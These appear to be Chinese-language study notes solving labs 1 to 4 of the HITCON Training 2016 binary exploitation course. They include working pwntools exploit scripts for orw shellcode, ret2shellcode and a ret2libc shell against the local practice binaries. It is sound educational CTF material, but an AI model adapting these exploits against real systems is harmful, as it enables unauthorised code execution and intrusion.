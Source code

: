 # Angelboy_HITCON_Training_2016 - Notes
> 前言:
>
> 其實每個 lab 下都有解答了，純粹紀錄和學習下，然後應該也不歸類在 wargame 就是，但不知道放哪

當初是看到這個[網站](https://veritas501.space/2017/05/23/HITCON-training%20writeup/)才知道的


## lab1

單純 gdb 練習

```
gdb

b *get_flag+389
set $eax=$edx
c
```

## lab2

保護都沒開，感覺就是 ret2shellcode

ida pro 看一下，就是輸入以後會直接執行，然後然後只允許 open/read/write

假設 flag 在當前目錄好了，就是 cat ./flag 這樣

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/HITCON-Training/LAB/lab2/orw.bin')

sh = open("a.bin", "rb").read()
r.sendlineafter(':', sh)


r.interactive()


"""
jmp sh
orw:
 pop ebx
 mov eax, 0x5
 xor ecx,ecx
 int 0x80

 mov ebx, eax
 mov eax, 0x3
 mov ecx, esp
 mov edx, 0x100
 int 0x80

 mov edx, eax
 mov eax, 0x4
 mov ebx, 0x1
 int 0x80

 mov eax, 0x1
 xor ebx, ebx
 int 0x80
sh:
 call orw
 db 'flag', 0
"""
```


## lab3

這題名字就是 ret2shellcode @@ ，然後保護也沒開應該就是了

```
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/HITCON-Training/LAB/lab3/ret2sc')

name = 0x804a060
r.sendlineafter(':', asm(shellcraft.sh()))
r.sendlineafter(':', "a"*32 + p32(name))
r.interactive()
```

## lab4

ret2libc 沒什麼好說的

```
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('./ret2lib')

puts_got = 134520860
puts_off = 0x005fca0
system_off = 0x0003ada0
r.sendlineafter('address (in dec) :', str(puts_got))
info(r.recvuntil('the address : '))
libc = int(r.recvuntil('\n')[:-1], 16) - puts_off
info("libc: "+hex(libc))
system = system_off + libc
sh = libc + 0x15BA0B
trash = 'a'*60
r.sendlineafter(':', trash + flat([system, sh, sh]))


r.interactive()
```





